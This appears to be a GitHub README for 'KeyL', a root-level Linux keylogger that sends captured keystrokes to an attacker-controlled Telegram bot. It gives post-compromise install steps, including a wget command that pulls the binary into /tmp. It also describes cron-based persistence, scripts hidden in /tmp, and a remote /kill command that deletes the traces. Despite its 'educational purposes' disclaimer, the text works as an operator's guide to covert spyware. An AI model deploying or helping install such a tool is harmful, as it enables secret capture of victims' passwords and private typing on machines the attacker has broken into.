 # KeyL

This program records keystrokes and sends them to a telegram bot, until the attacker send the `/kill` command so the program delete itself from the target's machine.

It require root access to the target.

## Disclaimer:
This project of a Key Logger is for **educational purposes**, it has been created only with my mere knowledge. Do **not** deploy or use this code on any system without explicit permission from the owner. Misuse of this software may violate laws and going to jail for stupid reasons it's dumb.

## How2UseIt

Once you gain access to the target machine, you have to options:
1. execute the `make.sh` .
2. copy and paste the content of `toBePasted.txt` .

You need to configure it for your own setup. Here's how:

1. **Set Your Telegram Token** (Mandatory) 
   Open `config.py` and insert your Telegram bot token.  
   > If you’re unsure how to get one, just ask ChatGPT or refer to the [Telegram Bot API docs](https://core.telegram.org/bots).

2. **Customize Logger Behavior**  (Optional)
   You can configure the logger by modifying flags inside `KeyL.py`.  
   If you make changes, you'll need to build your own version to install.

By default, `toBePasted.txt` installs the static version hosted on GitHub:
```bash
wget -O /tmp/keyl https://raw.githubusercontent.com/fortigate3600/KeyL/main/keyl
```


Before starting the program, send a dummy message to the Telegram bot.
This is necessary for the bot to retrieve your chat_id and be able to respond to you.

To stop the keylogger on a specific machine remotely,
send the command `/kill <machine_id>` to the Telegram bot.


## How it works
<img width="800" height="400" alt="killSwitchMechanism" src="https://github.com/user-attachments/assets/aac92346-7d68-4f4b-8460-fb7a1a382a45" />

The persistence mechanism is simple (and quite weak): if the logger process is killed, it gets respawned automatically by a cronjob calling launc.sh.
I have hidden the .sh files in the /tmp directory. I could have made it stealthier, but this project is just for academic purposes.

Once the main program calls KillSwitch.sh, the latter delete every file concerning us, and cleans the crojob.

The make.sh script (or the toBePasted.txt) creates the files shown in the image above.
Now, let’s dive into what the code does.

## Code

It monitors every keypress and stores each key in a buffer. Once the buffer reaches a certain threshold, it sends the content to a Telegram bot.

Specifically, the monitorShift() function checks whether the Shift key is being held down and communicates this through a global flag to monitorKeys(), which logs the pressed keys. If necessary, the keys are passed through a dictionary to convert them to their uppercase equivalents.




